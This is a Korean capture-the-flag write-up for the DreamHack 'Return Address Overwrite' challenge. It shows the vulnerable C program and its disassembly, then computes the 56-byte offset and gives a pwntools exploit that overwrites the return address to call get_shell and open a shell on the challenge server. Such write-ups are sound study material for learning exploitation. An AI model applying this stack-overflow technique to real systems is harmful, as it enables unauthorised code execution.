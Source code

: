 ## [DreamHack] Return Address Overwrite

문제 링크: https://dreamhack.io/wargame/challenges/351/

### 난이도: Level 1

### 문제 풀이

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}

```

위 프로그램은 scanf() 함수를 사용하여 버퍼의 길이를 지정해주지 않았기에 Buffer overflow 공격을 사용하여 Return address 값을 조작할 수 있다. 

즉, **get_shell()** 함수 주소 값을 Return address 값으로 덮어 씌우면 쉘을 획득할 수 있을 것으로 보인다. 

## 바이너리 분석 

```bash
objdump -x86-asm-syntax=intel -d rao
```

```objdump

00000000004006aa <get_shell>:
  4006aa: 55                           	push	rbp
  4006ab: 48 89 e5                     	mov	rbp, rsp
  4006ae: 48 83 ec 20                  	sub	rsp, 32
  4006b2: 48 8d 05 fb 00 00 00         	lea	rax, [rip + 251]  # 4007b4 <_IO_stdin_used+0x4>
  4006b9: 48 89 45 f8                  	mov	qword ptr [rbp - 8], rax
  4006bd: 48 8b 45 f8                  	mov	rax, qword ptr [rbp - 8]
  4006c1: 48 89 45 e0                  	mov	qword ptr [rbp - 32], rax
  4006c5: 48 c7 45 e8 00 00 00 00      	mov	qword ptr [rbp - 24], 0
  4006cd: 48 8d 4d e0                  	lea	rcx, [rbp - 32]
  4006d1: 48 8b 45 f8                  	mov	rax, qword ptr [rbp - 8]
  4006d5: ba 00 00 00 00               	mov	edx, 0
  4006da: 48 89 ce                     	mov	rsi, rcx
  4006dd: 48 89 c7                     	mov	rdi, rax
  4006e0: e8 6b fe ff ff               	call	0x400550 <execve@plt>
  4006e5: 90                           	nop
  4006e6: c9                           	leave
  4006e7: c3                           	ret

00000000004006e8 <main>:
  4006e8: 55                           	push	rbp
  4006e9: 48 89 e5                     	mov	rbp, rsp
  4006ec: 48 83 ec 30                  	sub	rsp, 48
  4006f0: b8 00 00 00 00               	mov	eax, 0
  4006f5: e8 6d ff ff ff               	call	0x400667 <init>
  4006fa: 48 8d 3d bb 00 00 00         	lea	rdi, [rip + 187]  # 4007bc <_IO_stdin_used+0xc>
  400701: b8 00 00 00 00               	mov	eax, 0
  400706: e8 35 fe ff ff               	call	0x400540 <printf@plt>
  40070b: 48 8d 45 d0                  	lea	rax, [rbp - 48]
  40070f: 48 89 c6                     	mov	rsi, rax
  400712: 48 8d 3d ab 00 00 00         	lea	rdi, [rip + 171]  # 4007c4 <_IO_stdin_used+0x14>
  400719: b8 00 00 00 00               	mov	eax, 0
  40071e: e8 4d fe ff ff               	call	0x400570 <__isoc99_scanf@plt>
  400723: b8 00 00 00 00               	mov	eax, 0
  400728: c9                           	leave
  400729: c3                           	ret
  40072a: 66 0f 1f 44 00 00            	nop	word ptr [rax + rax]
```

main() 함수 부분을 보면 **sub rsp, 48** 어셈블리를 통해 (지역변수 + 더미) 크기가 48임을 알 수 있다. 

64-bit machine은 주소 크기가 8 bytes를 차지하기에 SFP 크기가 8 bytes 임을 알 수 있다. 

즉, Return address에 get_shell() 함수의 주소를 overwrite 하기 위해서는 지역변수+더미(48) + SFP(8)를 쓰레기 값으로 채우고 RET에 get_shell() 함수의 주소를 써주면 된다. 

## Exploit code 

```python
from pwn import * 

ncp = remote('host3.dreamhack.games', 23493)
payload = 'A' * 56 + '\xAA\x06\x40\x00\x00\x00\x00\x00'

ncp.sendafter('Input: ', payload) 
ncp.interactive()
```

## Flag

<img src="images/flag.png">

